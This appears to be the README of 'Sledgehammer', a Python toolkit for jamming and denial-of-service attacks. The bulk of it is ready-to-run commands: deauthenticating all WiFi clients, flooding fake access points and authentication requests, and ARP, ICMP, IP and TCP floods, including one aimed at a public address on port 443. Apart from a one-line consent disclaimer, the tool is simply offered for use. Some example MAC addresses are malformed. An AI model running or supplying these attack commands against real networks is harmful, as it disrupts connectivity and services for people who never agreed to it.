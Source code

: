 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp

### Requirements
- Python 3.x
- [Pypacker](https://github.com/mike01/pypacker) ('pip install pypacker' or clone and 'python setup.py install')
- iwconfig (wireless-tools)

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.
Default source MAC and IP address is the one of the interface given by 'iface_name'.

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients except '00:11:22:33:44:55'

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --nobroadcast --macs_excluded 00:11:22:33:44:55 --count 9999

- WiFi DoS via mass fake APs

  python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth

  python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP

  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP

  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP

  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP

  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.
